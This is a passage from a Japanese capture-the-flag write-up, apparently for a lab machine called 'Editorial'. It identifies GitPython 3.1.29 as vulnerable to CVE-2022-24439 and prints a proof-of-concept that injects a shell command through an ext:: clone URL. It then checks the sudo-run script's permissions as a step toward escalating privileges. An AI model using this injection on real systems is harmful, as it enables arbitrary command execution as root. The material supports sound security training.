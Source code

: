 `/opt/internal_apps/clone_changes/clone_prod_change.py`の中身を見る
`from git import Repo`の一文がある。
この一文は、Git リポジトリと対話するための GitPythonというライブラリを使用していることを示している。
バージョンを調べると、3.1.29であることがわかる。
```bash
rod@editorial:/home/dev/apps$ python3 -m  pip show GitPython 
Name: GitPython
Version: 3.1.29
Summary: GitPython is a python library used to interact with Git repositories
Home-page: https://github.com/gitpython-developers/GitPython
Author: Sebastian Thiel, Michael Trier
Author-email: byronimo@gmail.com, mtrier@gmail.com
License: BSD
Location: /usr/local/lib/python3.10/dist-packages
Requires: gitdb
Required-by: 

```

GitPtython 3.1.29の脆弱性を調べると、CVE-2022-24439が見つかった。
https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858
この脆弱性は、ユーザー入力の検証が不適切であるために、悪意のあるリモート URL を `clone` コマンドに挿入できる 
この脆弱性が悪用可能なのは、ライブラリが外部の `git` コマンドを呼び出す際に、入力引数を十分にサニタイズしていない ためです。  
ただし、この問題は `ext` トランスポートプロトコルが有効になっている場合にのみ発生します。
PoCを試す。

1. **`Repo.init('', bare=True)`**
    
    - 空の Git リポジトリを作成します。
    - `bare=True` にすると、作業ディレクトリを持たないリポジトリ（通常の Git リポジトリとは異なり、`working tree` がない）になります。
2. **`clone_from('ext::sh -c touch% /tmp/pwned', 'tmp', multi_options=["-c protocol.ext.allow=always"])`**
    
    - `clone_from` は、通常はリモートリポジトリ（例: `https://github.com/user/repo.git`）をクローンするための関数。
    - しかし、`ext::` プロトコルを使用すると、Git の `shell` 経由で任意のコマンドを実行できる。
    - `sh -c touch% /tmp/pwned` は、`touch /tmp/pwned` を実行し、`/tmp/` に `pwned` という空のファイルを作成する。
3. **`multi_options=["-c protocol.ext.allow=always"]`**
    
    - 通常、Git は `ext::` プロトコルの使用を制限しているため、明示的に `-c protocol.ext.allow=always` を指定して有効化している。

```bash
from git import Repo

# Git の bare リポジトリを作成
r = Repo.init('', bare=True)

# 悪意のあるリモートリポジトリをクローン
r.clone_from('ext::sh -c touch% /tmp/pwned', 'tmp', multi_options=["-c protocol.ext.allow=always"])

```


そういえば、PoCを試そうとおもたんだけど、今回は、sudoで実行できるファイルの書き込み権限がないので、このファイルに合わせた形で引数を作ってsudoで実行する必要がある。
- 所有者（User, u） → `rwx`
    - 読み取り（r）
    - 書き込み（w）
    - 実行（x）
    - つまり、何でもできる（フルアクセス）
- グループ（Group, g） → `r-x`
    - 読み取り（r）
    - 実行（x）
    - 書き込み（w）がない → 編集できないが、実行はできる
- その他のユーザー（Other, o）→ `---`
    - アクセス権なし → 他のユーザーは何もできない
    - 
```bash
prod@editorial:/home/dev/apps$ ls -l /opt/internal_apps/clone_changes/clone_prod_change.py
-rwxr-x--- 1 root prod 256 Jun  4  2024 /opt/internal_apps/clone_changes/clone_prod_change.py
```